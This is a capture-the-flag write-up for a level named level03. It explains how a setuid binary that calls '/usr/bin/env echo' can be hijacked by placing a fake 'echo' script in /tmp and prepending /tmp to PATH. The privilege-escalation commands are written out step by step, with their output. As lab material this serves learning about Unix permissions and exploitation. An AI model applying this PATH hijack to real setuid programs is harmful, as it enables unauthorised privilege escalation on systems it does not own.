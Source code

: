 # Level03 : find flag03

## Tutorial

1. Launching the `level03` binary : it says `Exploit me`
2. Checking the binary `strings ~/level03 | grep Exploit`:
   - result : `/usr/bin/env echo Exploit me`
   - we can see here that it loads the `env` for the command, we can use it by modifying the `$PATH`
3. Checking the permissions for `level03` binary, `ls -l level03` :  
   - result : `-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03`
   - we can see here the `setuid` and `setgid` are set ! This means that when we execute `level03`, we execute it with the `uid` of `flag03` and the `gid` of `level03`.
4. Checking available folders where we can write and execute scripts with `ls -l /` :
   - result : `d-wx-wx-wx  4 root root  100 Apr 10 08:09 tmp`
   - we can write and execute programs in the `/tmp` folder
5. Writing program in `/tmp/echo`, `cat /tmp/echo` :
   - result : `getflag`
   - permissions (`ls -l /tmp/echo`): `----r-x--- 1 level03 level03 8 Apr 10 08:10 /tmp/echo`
   - these are the minimum permissions for `/tmp/echo` because we are executing `~/level03` with the `gid` of `level03` so it needs to be able to `r` and `x`, then `getflag` is executed with the `uid` of `flag03`
6. Executing `PATH=/tmp:$PATH ~/level03` by passing `/tmp` as file containing binaries
7. get flag for level03 !

## Notes

- Create file `/tmp/echo`
  - content : `getflag`
- Execute `PATH=/tmp:$PATH echo lol`
  - result : `lol`
- Execute `PATH=/tmp:$PATH /usr/bin/env echo`
  - result : `Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)`
- Summary : `/usr/bin/env` loads the environment variables of the user, this is necessary for the exploit.
- This is done because the `cat /etc/environment` set the `$PATH` variable for all users :
  - result : `PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"`
  - Source : `https://stackoverflow.com/questions/1641477/how-to-set-environment-variable-for-everyone-under-my-linux-system`
- Interesting discussion on the use of `/usr/bin/env` :
  - url : `https://unix.stackexchange.com/questions/29608/why-is-it-better-to-use-usr-bin-env-name-instead-of-path-to-name-as-my`

## Additional resources

- Permissions (suid, sgid, sticky bit)
  - https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/
  - https://linux.goffinet.org/administration/securite-locale/permissions-linux/
  - https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits
- Alias don't execute in scripts by default, need to set the shell as interactive :
  - possible other solution, doesn't work here (check link) : `alias echo=getflag`
  - https://stackoverflow.com/questions/30130954/alias-doesnt-work-inside-a-bash-script

